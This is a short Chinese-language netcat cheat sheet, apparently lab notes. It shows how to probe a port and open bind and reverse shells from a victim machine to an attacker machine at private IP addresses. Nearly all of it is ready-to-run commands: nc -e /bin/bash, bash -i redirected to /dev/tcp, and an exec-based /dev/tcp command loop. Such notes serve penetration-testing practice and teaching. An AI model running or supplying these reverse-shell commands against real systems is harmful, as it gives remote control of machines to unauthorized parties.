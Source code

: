 #### nc反弹shell

---

- 机器
  - 攻击机 192.168.31.139
  - 被攻击机 192.168.56.6

---

- nc 进行端口探测
  ```shell
  nc -zv 192.168.56.6 22
  ```

---

#### 正向反弹shell

- 在被攻击机上使用命令 
  ```shell
  nc -lvp 7777 -e /bin/bash    //监听 7777 端口， 等待连接， 并且设置shell交互方式
  ```

- 在攻击机上使用命令
  ```shell
  nc 192.168.56.6 7777 //连接被攻击机的7777端口， 进行正向反弹shell
  ```

- 连接上进行命令输入

---

#### 反向反弹shell

- 在攻击机使用命令
  ```shell
  nc -lvp 7777   //监听7777端口
  ```

- 在被攻击机上使用命令
  ```shell
  nc 192.168.31.139 7777 -e /bin/bash
  ```

---

#### 反方反弹shell2

- 在攻击机使用命令
  ```shell
  nc -lvp 7777 //监听7777端口，等待反弹shell
  ```

- 在被攻击机使用命令
  ```shell
  bash -i >& /dev/tcp/192.168.31.139/7777 0>&1
  ```

---

#### 反向反弹shell3

- 在攻使用命令
  ```shell
  nc -lvp 7777 //监听7777端口，等待反弹shell
  ```

- 在被攻击机使用命令
  ```shell
  exec 5<> /dev/tcp/192.168.31.139/7777; cat <&5 | while read line; do $line 2>&5 >&5; done
  ```

  